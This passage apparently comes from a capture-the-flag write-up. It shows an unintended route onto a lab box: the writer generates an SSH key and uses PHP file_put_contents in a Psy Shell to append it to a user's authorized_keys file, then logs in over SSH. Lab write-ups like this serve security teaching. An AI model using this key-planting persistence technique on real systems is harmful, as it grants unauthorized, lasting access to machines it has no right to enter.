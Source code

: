 ## Unintended way to get root

After we know that we have write permissions on dali in the Psy Shell we have another way to get on the box.

We can create our own SSH key:

```markdown
ssh-keygen -f dali
```

Put the contents of the public key into _.ssh/authorized_keys_:

```markdown
file_put_contents("/home/dali/.ssh/authorized_keys","ssh-rsa AAAAB3Nza... root@kali", FILE_APPEND)
```

And now we can log into the box with SSH.
